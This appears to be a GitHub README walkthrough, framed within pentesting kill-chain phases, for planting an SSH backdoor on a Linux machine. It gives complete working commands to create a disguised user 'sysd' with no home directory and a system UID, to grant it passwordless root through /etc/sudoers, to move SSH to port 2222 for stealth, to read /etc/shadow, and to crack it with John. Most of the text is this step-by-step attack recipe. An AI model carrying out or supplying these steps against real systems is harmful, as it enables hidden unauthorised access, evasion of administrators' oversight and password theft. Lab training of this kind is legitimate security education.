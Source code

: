 # Creating a Back-Door - Owning the System

There are several Pentesting phases, methodologies, or frameworks such as the Mitre and the Cyber kill Chain frameworks. This project focus on the fourth phase of engagement (Maintaining Access) or their equivalents like "Command and Control" for the cyber kill chain or "Persistence" for the Mitre framework.

To obtain this persistence, a backdoor is created using the SSH service. In short, two things need to be accomplished to succeed in this task: Create a user, and set the SSH server.

> NOTE: This walkthrough assumes that the commands are executed as the root user. Otherwise, will be necessary to be a privileged user and to use the sudo command when required.

---

## Three steps are required to accomplish this task:

- Step 1: **Be a shadow** (Create a stealth user).

- Step 2: **Getting ready for a Smooth Sailing** (Set the SSH backdoor connection).

- Step 3: **All aboard** (The Final Test).

---

## Step 1: Be a shadow (Create a stealth user).


To be a "shadow" in the system means to remain as unnoticed as possible. To achieve it, we will create a user with different features next listed.

1. The right user's name.
2. User with no home directory.
2. System user's UID and GID.
4. Grant full sudo privileges to the "shadow user" without the need of a password.
5. Testing

- ### The right user's name

    Use a name that blends with the system, so remain unotice. A name that looks as a process will be the choice in this walkthrough.

    **Username: sysd**

- ### User with no home directory   

    It is easy to look for listed users in a Linux system by quering the /home directory (see the picture). 
    
     ![1](Images/1.PNG)    
    
    A user not listed in the home path will obtain stealth. To create a new user without a folder in the home directory, use the next command:

    `adduser --no-create-home sysd`

    Give your secret user a password

    Press enter on each of the next setting to leave them blank.

    ![2](Images/2.PNG) 

    >Note: **adduser VS useradd command**. The command adduser is a perl script which uses useradd binary in back-end. For security reasons is prefered to use adduser instead of useradd. The command useradd will not ask for any information like password, and will not create a home directory. So, for this case you can consider to use useradd instead of adduser (try: `useradd sysd`).

- ### System user's UID and GID

    UID (User Identified), and GID (Group Identifier) are numbers that identify users and groups. Numbers below 1000 are reserved for system processes. The "shadow user" should look like another process, so the following commands will do that.

    `usermod  -u 777 sysd`

    `groupmod -g 777 sysd`

    ![3](Images/3.PNG)

- ### Grant full sudo privileges to the "shadow user" without the need of a password.

    On a Linux system, the sudoers file is the file where the privilege settings exist. Here, sudo access will be configured for the "shadow" user using the following command:

    `echo 'sysd ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers`

    ![4](Images/4.PNG)

- ### Testing

    To verify that the "shadow" user has full sudo privileges and is ready to use them without a password, use the following commands:

    Check sysd priviledges:

    `sudo  -lU sysd`

    ![5](Images/5.PNG)

    Switch from current user to sysd user:

    `su sysd`

    ![6](Images/6.PNG)

    To test the current user sudo privileges, we need to revoke any previous sudo privileges stored in the cache. The next command accomplishes this.

    `sudo -k`

    ![7](Images/7.PNG)

    Check if ask for password when accessing the shadow file. This sensitive file holds the passwords' hash of all users in the system. Usually, only a sudo privilege user has access to this file. This user would need to enter a password to gain access. If no password is required, our setting pass the test. 

    `sudo cat /etc/shadow`

    ![8](Images/8.PNG)
    > Note in the image that sysd user is listed in the file with its respective password hash
---

## Step 2: Getting ready for a Smooth Sailing (Set the SSH backdoor connection)

We will use SSH (Secure Shell) to establish a remote connection with the target device. To create this backdoor, we need to set the SSH server configuration file. This file is located in the ssh directory. This directory holds several configuration files such as the SSH client, SSH server, and public and private keys used to encrypt sessions. SSH normally uses port 22. We want to maintain a stealth connection, so we are changing that port to 2222.

- Access and modify the file with nano:

    `nano /etc/ssh/sshd_config`

    ![9](Images/9.PNG)

  - Edit the sshd_config file:

    `Port 2222`

    ![10](Images/10.PNG)

- Save and Exit
    ```
    Press "Ctrl x" keys
    Press "y" key
    Press "enter" key
    ```

- Restart the SSH service to activate the new configuration:

    `sudo systemctl restart ssh`

    ![11](Images/11.PNG)

---

## Step 3: All aboard (The Final Test)

Exiting the target machine, then access it again through the previously created backdoor.

- Exit the target machine

    Enter the exit command and hit enter until exit the target machine

    `exit`

    ![12](Images/12.PNG)
  

- Access the target throught the backdoor (change the ip address for the one of your target machine).

    `ssh sysd@192.168.200.105 -p 2222`

     ![13](Images/13.PNG)

- Use sudo to switch to the root user:

    `sudo -s`

    ![14](Images/14.PNG)

---

# THE END ? (Enjoy yourselve)

A backdoor has been created. Now that persistence (Command and Control or Maintaining Access) has been accomplished, it is time to move to the next step of the killer chain (Actions on Objective) or to the last stage of engagement (Covering your tracks).

Example:
Use John to crack the entire /etc/shadow file:

`john /etc/shadow`

![15](Images/15.PNG)